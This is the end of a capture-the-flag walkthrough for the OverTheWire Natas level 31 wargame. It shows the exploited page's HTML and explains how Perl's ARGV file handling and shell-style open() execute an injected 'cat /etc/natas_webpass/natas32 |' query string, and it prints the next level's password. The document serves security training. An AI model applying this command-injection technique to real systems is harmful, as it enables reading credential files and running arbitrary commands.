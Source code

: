   ```
  <style>
  #content {
      width: 900px;
  }
  .btn-file {
      position: relative;
      overflow: hidden;
  }
  .btn-file input[type=file] {
      position: absolute;
      top: 0;
      right: 0;
      min-width: 100%;
      min-height: 100%;
      font-size: 100px;
      text-align: right;
      filter: alpha(opacity=0);
      opacity: 0;
      outline: none;
      background: white;
      cursor: inherit;
      display: block;
  }
  
  </style>
  
  <h1>natas31</h1>
  <div id="content">
  <table class="sortable table table-hover table-striped"><tr><th>NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B
  </th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```

## Why this payload worked:

- You set one file part as `"ARGV"` — causing Perl to treat the command-line arguments as files.
- The CGI script reads the first parameter via `$cgi->upload('file')`, and **actually ends up executing your query string** via unsanitized input.
- `?cat /etc/natas_webpass/natas32 |` gets parsed by Perl shell-style open (e.g., `open(FH, "cat /etc/pass |")`), which executes it.
  
---

## 🏁 Password for the next level

`Password for natas32 is: NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
